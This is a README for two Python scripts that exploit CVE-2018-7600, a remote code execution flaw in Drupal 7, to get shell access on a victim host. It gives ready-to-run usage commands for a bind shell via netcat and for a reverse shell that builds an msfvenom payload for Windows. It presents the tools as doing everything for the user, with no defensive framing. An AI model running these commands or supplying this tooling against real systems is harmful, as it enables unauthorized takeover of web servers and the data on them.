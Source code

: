 # CVE-2018-7600
Two Python3 scripts that exploit Drupal 7's RCE vulnerability on Windows and Linux. Scripts are meant to acquire a shell on the target host.  
Nothing fancy, the scripts are meant to do everything for you and you don't need to setup your listener(s) separately.  

### d2shell.py
Setup and connect to a netcat binded shell onto the victim host.  
Usage.  
~~~Bash
# python3 d2shell.py target lhost windows/linux  
python3 d2shell.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2shell](d2shell.gif)  
![d2shell_screen](d2shell.png)  

### d2rev.py
Acquire a reverse shell onto the victim host. This script will use msfvenom to create an encoded shell payload if the victim is Windows based.  
Usage.  
~~~Bash
# python3 d2rev.py target lhost windows/linux  
python3 d2rev.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2rev](d2rev.gif)  
![d2rev_screen](d2rev.png)  
